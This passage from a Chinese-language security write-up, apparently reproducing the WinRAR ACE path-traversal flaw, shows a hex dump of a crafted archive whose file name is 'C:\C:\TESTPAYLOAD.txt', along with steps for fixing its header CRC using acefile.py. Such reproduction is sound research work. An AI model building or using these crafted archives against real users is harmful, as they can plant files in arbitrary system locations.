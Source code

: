 4. **构造恶意ACE数据包**

​          我们先按照最基础的方式构造 C:\C:\ 式攻击方法，

​          我们构造数据为如下格式

```cmd
00000000h: B5 45 31 00 00 00 90 2A 2A 41 43 45 2A 2A 14 14 ; 礒1...?*ACE**..
00000010h: 02 00 6F 54 5B 4E E8 03 5D E6 00 00 00 00 16 2A ; ..oT[N?]?....*
00000020h: 55 4E 52 45 47 49 53 54 45 52 45 44 20 56 45 52 ; UNREGISTERED VER
00000030h: 53 49 4F 4E 2A 89 45 33 00 01 01 80 0D 00 00 00 ; SION*塃3...€....
00000040h: 0D 00 00 00 8E 53 5B 4E 20 00 00 00 5C 4D 43 7C ; ....嶴[N ...\MC|
00000050h: 00 03 0A 00 54 45 14 00 43 3A 5C 43 3A 5C 54 45 ; ....TE..C:\C:\TE
00000060h: 53 54 50 41 59 4C 4F 44 2E 74 78 74 41 41 41 41 ; STPAYLOD.txtAAAA
00000070h: 41 41 41 41 41 41 20 0D 0A                      ; AAAAAA ..
```

> 分别修改 
>
> filename 为 C:\C:\TESTPAYLOAD.txt
>
> 字符串长度  改为 14h
>
> hdr_size    改为 33h
>
> hdr_crc     45 89h
>
> hdr_crc 的获取参找了 直接用脚本更改的方法
>
> if len(buf) < hsize:
> ​            raise CorruptedArchiveError("truncated header")
> ​        if ace_crc16(buf) != hcrc:
> ​            print(ace_crc16(buf),buf)   《--------直接打印出校验值 
> ​            raise CorruptedArchiveError("header CRC failed")
>
> 对比更改CRC 前后

```
>python acefile.py --headers TESTPAYLOD.ace
17801 b'\x01\x01\x80\r\x00\x00\x00\r\x00\x00\x00\x8eS[N \x00\x00\x00\\
3\n\x00TE\x14\x00C:\\C:\\TESTPAYLOD.txt'
TESTPAYLOD.ace: CorruptedArchiveError: header CRC failed

>python acefile.py --headers TESTPAYLOD.ace
volume
    filename    TESTPAYLOD.ace
    filesize    121
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x45b5
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e5b546f  2019-02-27 10:35:30
    reserved1   e8 03 5d e6 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x4589
    hdr_size    51
```